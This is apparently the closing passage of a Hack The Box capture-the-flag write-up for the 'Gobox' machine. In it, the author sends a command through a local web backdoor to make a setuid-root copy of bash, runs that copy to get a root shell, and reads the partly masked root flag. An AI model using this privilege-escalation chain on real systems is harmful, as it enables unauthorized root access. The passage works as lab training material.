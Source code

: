     www-data@gobox:~$ curl 'http://127.0.0.1:8000?ippsec.run[chmod%204777%20%2ftmp%2fbash]'      
    curl: (52) Empty reply from server
    www-data@gobox:~$ ls -l /tmp/bash
    -rwsrwxrwx 1 root root 1183448 Aug 26 19:38 /tmp/bash
    

Notice the `s` as the forth letter there. Running it with `-p` will preserve
privilege:

    
    
    www-data@gobox:~$ /tmp/bash -p
    bash-5.0#
    

And I can get the last flag:

    
    
    bash-5.0# cat /root/root.txt
    81d35170************************
    

[](/2021/08/30/htb-gobox.html)

